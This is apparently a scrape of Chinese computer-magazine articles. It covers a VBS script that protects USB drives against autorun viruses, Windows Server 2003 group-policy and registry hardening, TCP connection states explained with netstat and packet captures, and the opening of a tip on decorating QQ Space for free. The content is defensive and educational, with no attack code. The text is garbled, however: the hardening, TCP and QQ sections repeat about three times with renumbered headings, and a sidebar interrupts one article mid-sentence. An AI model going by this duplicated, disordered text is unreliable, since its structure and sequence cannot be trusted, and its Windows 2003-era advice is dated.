第一行是定义“autorun.inf”文件夹的位置为 U 盘盘符加上“autorun.inf”，然后第二行就是定义一个 FSO 对象了，这是一个操作文件的对象，剩下的代码就是利用这个对象在 U 盘里创建一个“autorun.inf”文件夹。最后一行就是将这个文件夹设为隐藏。这个脚本只要启动了，就会在后台连续监视，会对插入你系统的每一个 U 盘都进行免疫，也就是说只要这个 U 盘插入过你的电脑，就再也不会中 U 盘病毒了。

这个脚本已经放入光盘中了，你可以自己研究一下，只希望这个脚本能引起你对 VBS 的兴趣，从而能更深入地学习，像 FSO 等比较常用的组件，还有好多内容等着你呢。

> **编辑点评**：VBS 还是值得认同的，因为它的灵活强大。它可以把很多系统中不同的部分结合到一起完成一个工作。如果你仔细看的话，你会发现在 Windows 中 VBS 脚本所起的作用，比如说命令行的 IIS 管理，利用的就是 VBS，从而方便地为第三方程序（像虚拟机管理软件）提供接口。所以说学好 VBS 也是很有必要的。

# 钢铁是怎样炼成的——组策略安全配置

- 从本文你可以学到：
- 通过组策略来优化系统，提高系统安全性

“五一”公司放了三天假，趁机会写点东西给大家，希望广大爱好计算机的朋友有所帮助。

今天带给大家的是计算机安全方面的设置，一个安全的系统相信对每个用户都是不可缺少的。

下面的配置以公司财务部门的系统(Windows server 2003)配置为例。

## 一、禁止登陆时显示上次用户名

大家知道，系统在登陆时会显示上次的用户名，这样就可以轻易让别人知道一些账户信息，从而进行密码破解。解决方法“**开始 - 运行 - 输入 gpedit.msc**”，打开组策略来到“**计算机配置 - Windows 设置 - 本地策略 - 安全选项（以下统称路径 A）**”在右边找到“**不显示上次的用户名**”并双击打开选择启用即可。

## 二、禁止空连接

空连接可能使非法用户枚举出系统账号，猜解密码。禁止方法：同样组策略 A 路径找到“**不允许 SAM 账户的匿名枚举**”以及“**不允许 SAM 账户和共享的匿名枚举**”并启用。我们也能通过修改注册表来达到相应目的，只要在注册表编辑器界面中，将鼠标定位于 **HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\LSA** 分支，并在该分支下创建一个名为 **RestrictAnonymous** 的 **DWORD** 值，再将 **RestrictAnonymous** 键值的数值设置为“**1**”，就能禁止空连接随意访问系统的共享资源信息了。

## 三、禁止默认共享

win2000 和 win2003 在系统安装好后都会创建一些默认共享，用 **net share** 就可以查看，如 C$、D$、E$ 等，这样给服务器带来了很大的安全隐患，要禁止这些共享方法如下：来到注册表 **[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters]**，在右边新建一个 **DWORD** 键 **AutoShareServer**，值为 **0** 即可。

## 四、关机时清除页面文件

页面文件亦可能暴露一些敏感信息，我们使其在关机时自动清除：来到组策略 A 路径找到“**关机：清除虚拟内存页面文件**”将它启用。

## 五、停掉 Guest 并把 administrator 改名

至于为什么要这样做我就不用说了吧，来到组策略 A 路径：找到“**账户：来宾账户状态**”禁掉，“**账户：重命名来宾账户**”与“**账户：重命名系统管理员账户**”都启用并改名。然后建议给来宾和管理员账户都加上强壮的密码。

## 六、设置屏幕保护密码

虽然很简单，但是却很有必要，防止离开的时候被非法人员使用，方法就不用说了吧。

## 七、磁盘使用 NTFS 格式

这个也不必解释很多，业界的朋友几乎都知道吧，但还是提一下的好。

## 八、关闭不必要的服务

右击“我的电脑-管理-服务和应用程序-服务”，一些存在安全问题且我们用不着的服务我们大可停掉，这样既提高了速度也增加了安全，如 Terminal Services、IIS、Messenger、Remote Registry、Server、TCP/IP NetBIOS Helper、Telnet 等等，可以根据自己的需要进行具体的取舍。

## 九、开启密码策略和账户锁定策略

这既是一个安全策略也是一个对我们自己安全习惯的培养，来到组策略“计算机配置-windows 设置-安全设置-账户策略”，如图 1。推荐密码策略：1、启用密码复杂性要求。
2、密码长度最小值 8 位。3、密码最长使用期限 30 天。4、强制密码历史 5 个；账户锁定策略：1、账户锁定阈值 3 次。2、锁定时间 20 分钟。3、复位时间 20 分钟。

## 十、修改 Windows 日志文件存放位置
系统的日志文件默认在 %systemroot%\system32\config 下，分别为 AppEvent.Evt(程序日志)、SecEvent.Evt(安全日志)、SysEvent.Evt(系统日志)。我们通过修改注册表来修改它们的存放路径，来到注册表[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog]下面的子项有 Application、Security 和 System 分别对应相应日志，如图 2。我们以 System 为例，在其右边有一个 file 字符串值，把其值改为要更改到的日志文件路径，然后把 SysEvent.Evt 也复制到相应目录重启即可。

## 十一、对网络匿名访问的一些控制

打开组策略 A 路径将网络访问的“可匿名访问的共享”、“可匿名访问的命名管道”、“可远程访问的注册表路径”以及“可远程访问的注册表路径和子路径”后面的值全部去掉，并启用“限制匿名访问命名管道和共享”。

## 十二、特殊磁盘的隐藏和禁用

在有些时候，我们甚至需要隐藏或者禁止访问重要分区从而保护我们的数据不被破坏和盗取，组策略也可以实现。来到“用户配置-管理模块-windows 资源管理”，会找到“隐藏我的电脑中的这些指定的驱动器”和“防止从我的电脑访问驱动器”两项，在里面，我们可以设置对象为“限制所有驱动器”或 A、B、C、D 四个盘的属性。这里问题出现了——没有 D 盘以后的磁盘控制选项，也就无法单独控制 E 盘或者 F 盘等等了，有没有解决方法呢？

我们找到 winsows\inf 目录下的 system.adm 文件并以记事本打开，查找到了 !!NoDrives 字符所在位置。!!NoDrives 是指隐藏驱动器，紧接着下面有 !!NoViewOnDrive，指禁止访问驱动器，我们不难发现 !!NoViewOnDrive 与 !!NoDrives 后部都有 6 项 NAME，与我们组策略中的下拉项中正好是一一对应的，后面的值为 26 位的二进制，用来证明控制的驱动器号，这里我给出一组盘符数据：A=1 B=2 C=4 D=8 E=16 F=32 G=64 H=128 以此类推，是不是明白了？如果我们现在要隐藏 E 和 F 盘，而 E+F=48 则只需要在 !!NoDrives 的 “NAME !!ABCDOnly VALUE NUMERIC 15” 下插入 “NAME !!EFOnly VALUE NUMERIC 48”。如图 3。

然后在 system.adm 中找到“ABCDOnly=”仅限制驱动器 A、B、C 和 D”，在下面插入一行数据“EFOnly=”，仅限制驱动器 E 和 F”就可以了。同样在 !!NoViewOnDrive 也是一样，我们保存好 system.adm 返回到组策略中，在下拉列表中是不是多了我们刚刚添加的项？如图 4 (我这里为 ABGHIJK)，这样我们就可以自定义要控制的磁盘了，这种方法同样适用禁止光、软驱和 U 盘的使用，计算好要使用的盘符值即可。
## 十三、及时打好补丁以及安装杀毒软件和防火墙

打好补丁是配置系统安全里不可缺少的一个环节，经常注意一些漏洞的发布以及补救方法，懒一点的人建议还是把自动更新打开。另外杀毒软件和防火墙在安全上能够起到很大作用的。我个人喜欢用卡巴和天网，这个就根据自己的喜好了，另外还给大家介绍一款软件——终结者，用了几个月还觉得不错，官方 http://bbs.s-sos.net/ 有下。

# 总结

没有什么特别的新技术，关键在于一些经验的总结，大家就取长补短，对于那些大型的服务器以上的策略还是不够的，需要具体情况具体配置，有什么错误或者疑问的希望 E-Mail:zhoujianflash@163.com 一起交流学习！

编辑点评：组策略包含了大部分的安全设置，是菜鸟进行系统优化的好帮手，但组策略也只是一个程序，用来简化部分注册表操作。它的设置也不是很完全，要配置一个安全的系统，还是需要靠其他工具的配合，最重要的是管理员的安全意识和经验。

# TCP 连接状态分析

王艺翔

从本文你可以学到：

- 一、认识 TCP 连接的几种常见状态
- 二、了解 TCP 连接状态间的关系

想必不少菜鸟都用过netstat -an命令吧，其输出结果如图1。在State 列下我们会看见三种状态：“LISTENING”，“ESTABLISHED”，“CLOSE_WAIT” 这是出现次数最多的三个，
另外还有其他几种状态，如“FIN_WAIT_1”，“FIN_WAIT_2”，“TIMEWAIT”等。在什么情况下出现什么状态是今天要讨论的问题。为了说明问题请看图2。
对图2我来说明一下，图中每个方框表示一个TCP 所有的状态，方框中的字是TCP 标准使用的状态名，箭头旁边的字表明是什么原因引起这种变化的。注意上面三种不同的箭头，其中粗实线箭头表示对客户进程的正常变迁，粗虚线箭头表示服务器进程的正常变迁，细线箭头表示非典型变迁。正常变迁即客户机或服务器建立连接，数据传输完毕后再由客户机请求释放连接，中途没有出现异常关闭。
我们先看客户进程的正常变迁。从起点CLOSED状态开始，我们沿图2粗箭头往下看，因为TCP连接建立需要经过3次握手过程，至于如何握手见图3。

主机A是客户机，主机B是服务器，首先A 发送SYN同步信号给B来请求连接（图3第一步），发完A就进入了“SYN_SENT”状态，如果A收到B发来的SYN和ACK（图3第二步）并且发完ACK后（图3第三步）则连接建立成功，A进入“ESTABLISHED”状态，此时双方就可以接收和发送数据了。如果此时A发送数据完毕则会通知B释放连接，如图4。
主机A发送一个FIN给主机B，发完A进入FIN_WAIT_1状态(图4第一步)，当A收到B发来的ACK后，则A进入FIN_WAIT_2状态（图4第二步），当A收到B发来的FIN（图4第三步）并且自己发送ACK后（图4第四步）A就进入了TIME_WAIT状态，经过两倍的报文段寿命后，A就进入了“CLOSED”状态，此时我们用netstat -an就看不见此连接了，因为系统已经将其删除了。

现在从服务器进程来分析状态图，我们沿着粗虚线往下走，一开始服务器进程发出被动打开（LISTEN），在图3中当服务器B收到客户A发来的SYN并且自己发完SYN和ACK后（图3第二步），进入“SYN_RCVD”状态，当服务器B收到客户A发来的ACK后（图3第三步）进入“ESTABLISHED”状态。在图4中当B收到FIN（图4第一步）且发完ACK后（图4第二步）进入“CLOSE_WAIT”状态，当B发完FIN后（图4第三步）进入了“LAST_ACK”状态，最后B收到A发来的ACK进入“CLOSED”状态（图4第四步），系统直接删除此TCP 连接。

下面我们举个例子说明下，我们先在命令行中输入netstat -an发现没有任何连接，此时我们打开Ethe-real 抓包工具（如何使用请大家看相关教程），选择抓FTP包，然后在命令行下依次输入ftp 210.28.180.252；用户名；密码；BYE；(这里是作者自己的ftp地址，大家在做测试的时候记得把它转换成你的信息)我们看看抓的包，如图5。
我们主要看前三行和后四行，211.65.3.204是我本地客户端，210.28.180.252是服务器，前三行是三次握手过程，握手结束后就是认证和传输数据过程，当输入BYE的时候表明客户端请求服务器结束当前进程，正好经历了图3的四步。正常的TCP 连接建立和关闭总结为图6。
同样我们在IE中输入www.baidu.com时我们赶紧在命令行中输入netstat -an看下连接，注意速度要快，如图7。

出现一个SYS_SENT状态，过两秒再netstat -an看下连接，如图8，此时连接已经变成“ESTABLISHED”状态。当我们输入网址时相当于向baidu 服务器提交SYN包，发完我们处于“SYN_SENTD”状态，这个状态是很短的，当baidu 服务器收到SYN包时会向本地发送SYN和ACK，当主机发给收到SYN和ACK并向baidu发送ACK后，双方就处于“ESTABLISTED”状态了，如图8。
前三行是三次握手过程，后面几行是baidu发给我们的数据包。
上面介绍的都是客户机正常的请求和关闭，走的路线是一条粗实线，如果是服务器正常的请求和关闭，走的路线是一条粗虚线。下面我们再模仿一下客户机非理想的情况，比如当我们突然将IE窗口关闭时，此时客户机A没有向服务器发送FIN，那将会是个什么情况呢？服务器如何处理呢？用Ethereal抓的包如图10。

我们看第11个包到第14个包，会发现不是客户发FIN给服务器而是服务器发送一个FIN给到我们本地，当本地收到FIN且发送ACK后便处于“CLOSE_WAIT”状态，当本地发完FIN和ACK后便处于“LAST_ACK”状态，最后服务器发送给本地ACK后，本地就会处于“CLOSED”状态，系统将此TCP连接删除。我们发现走的路线不是粗虚线也不是粗实线，而是先粗实线后粗虚线，其路线为“CLOSED”——“SYN_SENT”——“ESTABLISHED”——“CLOSED_WAIT”——“LAST_ACK”——“CLOSED”。

我只是从客户机分析的，如果从服务器分析也是一样，当然好多情况下都是非典型变迁，即不是一直沿着粗实线或者粗虚线走，比如先走粗实线后走粗虚线，或者先走粗虚线后走粗实线，当然其他一些情况也是会出现的，比如走一条细实线和粗虚线和粗实线同时存在的路线，请大家对照图2学会分析，然后用Ethereal抓包看结果是否与想的一样。

> **编辑点评：** 有连接，就会有连接状态，了解连接状态，对你以后深入的了解计算机的工作方式会有不少帮助，也可以帮助你深入了解一些针对连接的攻击方式。比如DOS的原理，端口扫描的原理，这些都是利用端口的状态来工作的。

## QQ 空间 那些不为人知的秘密

KAY4

从本文你可以学到：

- 怎样“免费”装扮自己的QQ空间

我是真的很佩服TX工作人员的敬业精神，这不，今天一打开自己的空间发现那些好看的东西都没有了，让我一下以为走错空间了，仔细想想这也很正常，QQ空间的版本更新的速度一直都是很快的，现在都到了4.0了。没办法，重新做吧，注意，这可不是进空间商城买啊，而是完全用“免费”的方法来做，谁叫我没银子呢！
首先是个个人资料版块，很久没买QQ秀了，里面显示的是传统的背心+短裤的白饭装，这样秀给别人看不是丢自己的脸吗？如图1。
我们的任务就是改掉它，打开QQ秀网页，里面有很多TX推荐的漂亮Q秀，这里我希望大家进E季风中查找,如图2。
找到我们中意的Q秀后，在右边的QQ号码中可以知道此Q秀的主人，如图3。

记住它，再打开网页http://www.jl114.com/qq/qzone/xiangxiang.htm，会看到如图4界面，按照提示输入自己的QQ号码，图片地址怎么
> **cool 语**
时间过得好快，转眼间就到6月份了，“小朋友”们儿童节怎么过的呢？呵呵，其实还是蛮怀念小时候的，没有烦恼，不需要奔波，最大的愿望就是等待放假。可转眼间，就是沧海桑田……昨天去剪头发，结果不知怎么搞的，剪完后照镜子，感觉自己突然间老了十岁，往往忙碌中不觉得变化，等突然停住，却发现发丝已经枯黄。不过我们还幸运，因为拥有年轻……
这时我们回到自己的空间去看看，变了吧，如图6。

经我实测，就算你以后买了新的Q秀，也不会改变你空间里设置好的Q秀，所以我们完全不用担心Q秀消失的问题。
可惜遗憾的是这些装饰物只能在展示栏内移动，不能移到背景区去，为了弥补

## 二、特殊磁盘的隐藏和禁用

在有些时候，我们甚至需要隐藏或者禁止访问重要分区从而保护我们的数据不被破坏和盗取，组策略也可以实现。来到“用户配置-管理模块-windows 资源管理”，会找到“隐藏我的电脑中的这些指定的驱动器”和“防止从我的电脑访问驱动器”两项，在里面，我们可以设置对象为“限制所有驱动器”或 A、B、C、D 四个盘的属性。这里问题出现了——没有 D 盘以后的磁盘控制选项，也就无法单独控制 E 盘或者 F 盘等等了，有没有解决方法呢？

我们找到 winsows\inf 目录下的 system.adm 文件并以记事本打开，查找到了 !!NoDrives 字符所在位置。!!NoDrives 是指隐藏驱动器，紧接着下面有 !!NoViewOnDrive，指禁止访问驱动器，我们不难发现 !!NoViewOnDrive 与 !!NoDrives 后部都有 6 项 NAME，与我们组策略中的下拉项中正好是一一对应的，后面的值为 26 位的二进制，用来证明控制的驱动器号，这里我给出一组盘符数据：A=1 B=2 C=4 D=8 E=16 F=32 G=64 H=128 以此类推，是不是明白了？如果我们现在要隐藏 E 和 F 盘，而 E+F=48 则只需要在 !!NoDrives 的 “NAME !!ABCDOnly VALUE NUMERIC 15” 下插入 “NAME !!EFOnly VALUE NUMERIC 48”。如图 3。

然后在 system.adm 中找到“ABCDOnly=”仅限制驱动器 A、B、C 和 D”，在下面插入一行数据“EFOnly=”，仅限制驱动器 E 和 F”就可以了。同样在 !!NoViewOnDrive 也是一样，我们保存好 system.adm 返回到组策略中，在下拉列表中是不是多了我们刚刚添加的项？如图 4 (我这里为 ABGHIJK)，这样我们就可以自定义要控制的磁盘了，这种方法同样适用禁止光、软驱和 U 盘的使用，计算好要使用的盘符值即可。
## 三、及时打好补丁以及安装杀毒软件和防火墙

打好补丁是配置系统安全里不可缺少的一个环节，经常注意一些漏洞的发布以及补救方法，懒一点的人建议还是把自动更新打开。另外杀毒软件和防火墙在安全上能够起到很大作用的。我个人喜欢用卡巴和天网，这个就根据自己的喜好了，另外还给大家介绍一款软件——终结者，用了几个月还觉得不错，官方 http://bbs.s-sos.net/ 有下。

# 总结

没有什么特别的新技术，关键在于一些经验的总结，大家就取长补短，对于那些大型的服务器以上的策略还是不够的，需要具体情况具体配置，有什么错误或者疑问的希望 E-Mail:zhoujianflash@163.com 一起交流学习！

编辑点评：组策略包含了大部分的安全设置，是菜鸟进行系统优化的好帮手，但组策略也只是一个程序，用来简化部分注册表操作。它的设置也不是很完全，要配置一个安全的系统，还是需要靠其他工具的配合，最重要的是管理员的安全意识和经验。

# TCP 连接状态分析

王艺翔

从本文你可以学到：

- 一、认识 TCP 连接的几种常见状态
- 二、了解 TCP 连接状态间的关系

想必不少菜鸟都用过netstat -an命令吧，其输出结果如图1。在State 列下我们会看见三种状态：“LISTENING”，“ESTABLISHED”，“CLOSE_WAIT” 这是出现次数最多的三个，
另外还有其他几种状态，如“FIN_WAIT_1”，“FIN_WAIT_2”，“TIMEWAIT”等。在什么情况下出现什么状态是今天要讨论的问题。为了说明问题请看图2。
对图2我来说明一下，图中每个方框表示一个TCP 所有的状态，方框中的字是TCP 标准使用的状态名，箭头旁边的字表明是什么原因引起这种变化的。注意上面三种不同的箭头，其中粗实线箭头表示对客户进程的正常变迁，粗虚线箭头表示服务器进程的正常变迁，细线箭头表示非典型变迁。正常变迁即客户机或服务器建立连接，数据传输完毕后再由客户机请求释放连接，中途没有出现异常关闭。
我们先看客户进程的正常变迁。从起点CLOSED状态开始，我们沿图2粗箭头往下看，因为TCP连接建立需要经过3次握手过程，至于如何握手见图3。

主机A是客户机，主机B是服务器，首先A 发送SYN同步信号给B来请求连接（图3第一步），发完A就进入了“SYN_SENT”状态，如果A收到B发来的SYN和ACK（图3第二步）并且发完ACK后（图3第三步）则连接建立成功，A进入“ESTABLISHED”状态，此时双方就可以接收和发送数据了。如果此时A发送数据完毕则会通知B释放连接，如图4。
主机A发送一个FIN给主机B，发完A进入FIN_WAIT_1状态(图4第一步)，当A收到B发来的ACK后，则A进入FIN_WAIT_2状态（图4第二步），当A收到B发来的FIN（图4第三步）并且自己发送ACK后（图4第四步）A就进入了TIME_WAIT状态，经过两倍的报文段寿命后，A就进入了“CLOSED”状态，此时我们用netstat -an就看不见此连接了，因为系统已经将其删除了。

现在从服务器进程来分析状态图，我们沿着粗虚线往下走，一开始服务器进程发出被动打开（LISTEN），在图3中当服务器B收到客户A发来的SYN并且自己发完SYN和ACK后（图3第二步），进入“SYN_RCVD”状态，当服务器B收到客户A发来的ACK后（图3第三步）进入“ESTABLISHED”状态。在图4中当B收到FIN（图4第一步）且发完ACK后（图4第二步）进入“CLOSE_WAIT”状态，当B发完FIN后（图4第三步）进入了“LAST_ACK”状态，最后B收到A发来的ACK进入“CLOSED”状态（图4第四步），系统直接删除此TCP 连接。

下面我们举个例子说明下，我们先在命令行中输入netstat -an发现没有任何连接，此时我们打开Ethe-real 抓包工具（如何使用请大家看相关教程），选择抓FTP包，然后在命令行下依次输入ftp 210.28.180.252；用户名；密码；BYE；(这里是作者自己的ftp地址，大家在做测试的时候记得把它转换成你的信息)我们看看抓的包，如图5。
我们主要看前三行和后四行，211.65.3.204是我本地客户端，210.28.180.252是服务器，前三行是三次握手过程，握手结束后就是认证和传输数据过程，当输入BYE的时候表明客户端请求服务器结束当前进程，正好经历了图3的四步。正常的TCP 连接建立和关闭总结为图6。
同样我们在IE中输入www.baidu.com时我们赶紧在命令行中输入netstat -an看下连接，注意速度要快，如图7。

出现一个SYS_SENT状态，过两秒再netstat -an看下连接，如图8，此时连接已经变成“ESTABLISHED”状态。当我们输入网址时相当于向baidu 服务器提交SYN包，发完我们处于“SYN_SENTD”状态，这个状态是很短的，当baidu 服务器收到SYN包时会向本地发送SYN和ACK，当主机发给收到SYN和ACK并向baidu发送ACK后，双方就处于“ESTABLISTED”状态了，如图8。
前三行是三次握手过程，后面几行是baidu发给我们的数据包。
上面介绍的都是客户机正常的请求和关闭，走的路线是一条粗实线，如果是服务器正常的请求和关闭，走的路线是一条粗虚线。下面我们再模仿一下客户机非理想的情况，比如当我们突然将IE窗口关闭时，此时客户机A没有向服务器发送FIN，那将会是个什么情况呢？服务器如何处理呢？用Ethereal抓的包如图10。

我们看第11个包到第14个包，会发现不是客户发FIN给服务器而是服务器发送一个FIN给到我们本地，当本地收到FIN且发送ACK后便处于“CLOSE_WAIT”状态，当本地发完FIN和ACK后便处于“LAST_ACK”状态，最后服务器发送给本地ACK后，本地就会处于“CLOSED”状态，系统将此TCP连接删除。我们发现走的路线不是粗虚线也不是粗实线，而是先粗实线后粗虚线，其路线为“CLOSED”——“SYN_SENT”——“ESTABLISHED”——“CLOSE_WAIT”——“LAST_ACK”——“CLOSED”。

我只是从客户机分析的，如果从服务器分析也是一样，当然好多情况下都是非典型变迁，即不是一直沿着粗实线或者粗虚线走，比如先走粗实线后走粗虚线，或者先走粗虚线后走粗实线，当然其他一些情况也是会出现的，比如走一条细实线和粗虚线和粗实线同时存在的路线，请大家对照图2学会分析，然后用Ethereal抓包看结果是否与想的一样。

> **编辑点评：** 有连接，就会有连接状态，了解连接状态，对你以后深入的了解计算机的工作方式会有不少帮助，也可以帮助你深入了解一些针对连接的攻击方式。比如DOS的原理，端口扫描的原理，这些都是利用端口的状态来工作的。

## QQ 空间 那些不为人知的秘密

KAY4

从本文你可以学到：

- 怎样“免费”装扮自己的QQ空间

我是真的很佩服TX工作人员的敬业精神，这不，今天一打开自己的空间发现那些好看的东西都没有了，让我一下以为走错空间了，仔细想想这也很正常，QQ空间的版本更新的速度一直都是很快的，现在都到了4.0了。没办法，重新做吧，注意，这可不是进空间商城买啊，而是完全用“免费”的方法来做，谁叫我没银子呢！
首先是个个人资料版块，很久没买QQ秀了，里面显示的是传统的背心+短裤的白饭装，这样秀给别人看不是丢自己的脸吗？如图1。
我们的任务就是改掉它，打开QQ秀网页，里面有很多TX推荐的漂亮Q秀，这里我希望大家进E季风中查找,如图2。
找到我们中意的Q秀后，在右边的QQ号码中可以知道此Q秀的主人，如图3。

记住它，再打开网页http://www.jl114.com/qq/qzone/xiangxiang.htm，会看到如图4界面，按照提示输入自己的QQ号码，图片地址怎么
> **cool 语**
时间过得好快，转眼间就到6月份了，“小朋友”们儿童节怎么过的呢？呵呵，其实还是蛮怀念小时候的，没有烦恼，不需要奔波，最大的愿望就是等待放假。可转眼间，就是沧海桑田……昨天去剪头发，结果不知怎么搞的，剪完后照镜子，感觉自己突然间老了十岁，往往忙碌中不觉得变化，等突然停住，却发现发丝已经枯黄。不过我们还幸运，因为拥有年轻……
这时我们回到自己的空间去看看，变了吧，如图6。

经我实测，就算你以后买了新的Q秀，也不会改变你空间里设置好的Q秀，所以我们完全不用担心Q秀消失的问题。
可惜遗憾的是这些装饰物只能在展示栏内移动，不能移到背景区去，为了弥补

## 二、特殊磁盘的隐藏和禁用

在有些时候，我们甚至需要隐藏或者禁止访问重要分区从而保护我们的数据不被破坏和盗取，组策略也可以实现。来到“用户配置-管理模块-windows 资源管理”，会找到“隐藏我的电脑中的这些指定的驱动器”和“防止从我的电脑访问驱动器”两项，在里面，我们可以设置对象为“限制所有驱动器”或 A、B、C、D 四个盘的属性。这里问题出现了——没有 D 盘以后的磁盘控制选项，也就无法单独控制 E 盘或者 F 盘等等了，有没有解决方法呢？

我们找到 winsows\inf 目录下的 system.adm 文件并以记事本打开，查找到了 !!NoDrives 字符所在位置。!!NoDrives 是指隐藏驱动器，紧接着下面有 !!NoViewOnDrive，指禁止访问驱动器，我们不难发现 !!NoViewOnDrive 与 !!NoDrives 后部都有 6 项 NAME，与我们组策略中的下拉项中正好是一一对应的，后面的值为 26 位的二进制，用来证明控制的驱动器号，这里我给出一组盘符数据：A=1 B=2 C=4 D=8 E=16 F=32 G=64 H=128 以此类推，是不是明白了？如果我们现在要隐藏 E 和 F 盘，而 E+F=48 则只需要在 !!NoDrives 的 “NAME !!ABCDOnly VALUE NUMERIC 15” 下插入 “NAME !!EFOnly VALUE NUMERIC 48”。如图 3。

然后在 system.adm 中找到“ABCDOnly=”仅限制驱动器 A、B、C 和 D”，在下面插入一行数据“EFOnly=”，仅限制驱动器 E 和 F”就可以了。同样在 !!NoViewOnDrive 也是一样，我们保存好 system.adm 返回到组策略中，在下拉列表中是不是多了我们刚刚添加的项？如图 4 (我这里为 ABGHIJK)，这样我们就可以自定义要控制的磁盘了，这种方法同样适用禁止光、软驱和 U 盘的使用，计算好要使用的盘符值即可。
## 三、及时打好补丁以及安装杀毒软件和防火墙

打好补丁是配置系统安全里不可缺少的一个环节，经常注意一些漏洞的发布以及补救方法，懒一点的人建议还是把自动更新打开。另外杀毒软件和防火墙在安全上能够起到很大作用的。我个人喜欢用卡巴和天网，这个就根据自己的喜好了，另外还给大家介绍一款软件——终结者，用了几个月还觉得不错，官方 http://bbs.s-sos.net/ 有下。

# 总结

没有什么特别的新技术，关键在于一些经验的总结，大家就取长补短，对于那些大型的服务器以上的策略还是不够的，需要具体情况具体配置，有什么错误或者疑问的希望 E-Mail:zhoujianflash@163.com 一起交流学习！

编辑点评：组策略包含了大部分的安全设置，是菜鸟进行系统优化的好帮手，但组策略也只是一个程序，用来简化部分注册表操作。它的设置也不是很完全，要配置一个安全的系统，还是需要靠其他工具的配合，最重要的是管理员的安全意识和经验。

# TCP 连接状态分析

王艺翔

从本文你可以学到：

- 一、认识 TCP 连接的几种常见状态
- 二、了解 TCP 连接状态间的关系

想必不少菜鸟都用过netstat -an命令吧，其输出结果如图1。在State 列下我们会看见三种状态：“LISTENING”，“ESTABLISHED”，“CLOSE_WAIT” 这是出现次数最多的三个，
另外还有其他几种状态，如“FIN_WAIT_1”，“FIN_WAIT_2”，“TIMEWAIT”等。在什么情况下出现什么状态是今天要讨论的问题。为了说明问题请看图2。
对图2我来说明一下，图中每个方框表示一个TCP 所有的状态，方框中的字是TCP 标准使用的状态名，箭头旁边的字表明是什么原因引起这种变化的。注意上面三种不同的箭头，其中粗实线箭头表示对客户进程的正常变迁，粗虚线箭头表示服务器进程的正常变迁，细线箭头表示非典型变迁。正常变迁即客户机或服务器建立连接，数据传输完毕后再由客户机请求释放连接，中途没有出现异常关闭。
我们先看客户进程的正常变迁。从起点CLOSED状态开始，我们沿图2粗箭头往下看，因为TCP连接建立需要经过3次握手过程，至于如何握手见图3。

主机A是客户机，主机B是服务器，首先A 发送SYN同步信号给B来请求连接（图3第一步），发完A就进入了“SYN_SENT”状态，如果A收到B发来的SYN和ACK（图3第二步）并且发完ACK后（图3第三步）则连接建立成功，A进入“ESTABLISHED”状态，此时双方就可以接收和发送数据了。如果此时A发送数据完毕则会通知B释放连接，如图4。
主机A发送一个FIN给主机B，发完A进入FIN_WAIT_1状态(图4第一步)，当A收到B发来的ACK后，则A进入FIN_WAIT_2状态（图4第二步），当A收到B发来的FIN（图4第三步）并且自己发送ACK后（图4第四步）A就进入了TIME_WAIT状态，经过两倍的报文段寿命后，A就进入了“CLOSED”状态，此时我们用netstat -an就看不见此连接了，因为系统已经将其删除了。

现在从服务器进程来分析状态图，我们沿着粗虚线往下走，一开始服务器进程发出被动打开（LISTEN），在图3中当服务器B收到客户A发来的SYN并且自己发完SYN和ACK后（图3第二步），进入“SYN_RCVD”状态，当服务器B收到客户A发来的ACK后（图3第三步）进入“ESTABLISHED”状态。在图4中当B收到FIN（图4第一步）且发完ACK后（图4第二步）进入“CLOSE_WAIT”状态，当B发完FIN后（图4第三步）进入了“LAST_ACK”状态，最后B收到A发来的ACK进入“CLOSED”状态（图4第四步），系统直接删除此TCP 连接。

下面我们举个例子说明下，我们先在命令行中输入netstat -an发现没有任何连接，此时我们打开Ethe-real 抓包工具（如何使用请大家看相关教程），选择抓FTP包，然后在命令行下依次输入ftp 210.28.180.252；用户名；密码；BYE；(这里是作者自己的ftp地址，大家在做测试的时候记得把它转换成你的信息)我们看看抓的包，如图5。
我们主要看前三行和后四行，211.65.3.204是我本地客户端，210.28.180.252是服务器，前三行是三次握手过程，握手结束后就是认证和传输数据过程，当输入BYE的时候表明客户端请求服务器结束当前进程，正好经历了图3的四步。正常的TCP 连接建立和关闭总结为图6。
同样我们在IE中输入www.baidu.com时我们赶紧在命令行中输入netstat -an看下连接，注意速度要快，如图7。

出现一个SYS_SENT状态，过两秒再netstat -an看下连接，如图8，此时连接已经变成“ESTABLISHED”状态。当我们输入网址时相当于向baidu 服务器提交SYN包，发完我们处于“SYN_SENTD”状态，这个状态是很短的，当baidu 服务器收到SYN包时会向本地发送SYN和ACK，当主机发给收到SYN和ACK并向baidu发送ACK后，双方就处于“ESTABLISTED”状态了，如图8。
前三行是三次握手过程，后面几行是baidu发给我们的数据包。
上面介绍的都是客户机正常的请求和关闭，走的路线是一条粗实线，如果是服务器正常的请求和关闭，走的路线是一条粗虚线。下面我们再模仿一下客户机非理想的情况，比如当我们突然将IE窗口关闭时，此时客户机A没有向服务器发送FIN，那将会是个什么情况呢？服务器如何处理呢？用Ethereal抓的包如图10。

我们看第11个包到第14个包，会发现不是客户发FIN给服务器而是服务器发送一个FIN给到我们本地，当本地收到FIN且发送ACK后便处于“CLOSE_WAIT”状态，当本地发完FIN和ACK后便处于“LAST_ACK”状态，最后服务器发送给本地ACK后，本地就会处于“CLOSED”状态，系统将此TCP连接删除。我们发现走的路线不是粗虚线也不是粗实线，而是先粗实线后粗虚线，其路线为“CLOSED”——“SYN_SENT”——“ESTABLISHED”——“CLOSE_WAIT”——“LAST_ACK”——“CLOSED”。

我只是从客户机分析的，如果从服务器分析也是一样，当然好多情况下都是非典型变迁，即不是一直沿着粗实线或者粗虚线走，比如先走粗实线后走粗虚线，或者先走粗虚线后走粗实线，当然其他一些情况也是会出现的，比如走一条细实线和粗虚线和粗实线同时存在的路线，请大家对照图2学会分析，然后用Ethereal抓包看结果是否与想的一样。

> **编辑点评：** 有连接，就会有连接状态，了解连接状态，对你以后深入的了解计算机的工作方式会有不少帮助，也可以帮助你深入了解一些针对连接的攻击方式。比如DOS的原理，端口扫描的原理，这些都是利用端口的状态来工作的。

## QQ 空间 那些不为人知的秘密

KAY4

从本文你可以学到：

- 怎样“免费”装扮自己的QQ空间

